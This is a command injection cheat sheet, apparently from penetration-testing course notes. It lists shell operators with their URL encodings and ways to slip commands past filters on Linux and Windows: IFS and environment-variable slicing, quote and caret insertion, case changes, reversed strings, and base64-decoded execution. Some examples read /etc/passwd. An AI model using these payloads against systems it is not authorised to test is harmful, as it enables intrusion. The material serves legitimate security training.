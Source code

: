 ## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

---

# Linux

## Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
|                         |                                                                                    |

---

## Blacklisted Command Bypass

| Code                                                                                             | Description                         |
| ------------------------------------------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                                                          |                                     |
| `'` or `"`                                                                                       | Total must be even                  |
| `$@` or `\`                                                                                      | Linux only                          |
| **Case Manipulation**                                                                            |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                               | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                                                               | Another variation of the technique  |
| **Reversed Commands**                                                                            |                                     |
| `echo 'whoami' \| rev`                                                                           | Reverse a string                    |
| `$(rev<<<'imaohw')`                                                                              | Execute reversed command            |
| **Encoded Commands**                                                                             |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                 | Encode a string with base64         |
| `bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` | Execute b64 encoded string          |

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---

## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"` for example w"h"o"a"m"i                                                                           | Total must be even                       |
| `^`<br>                                                                                                      | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
### Linux Only
```bash
who$@ami
w\ho\am\i
```

### Windows Only
```cmd-session
C:\htb> who^ami

21y4d
```

> [!Tips]
> 
> It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible
> 
> For example, the backend command runs as: "mv FROM TO". the param of the vuln is to=val&from=val.
> 
> It is easier to perform injection in the to param cause it happens later in the linux command

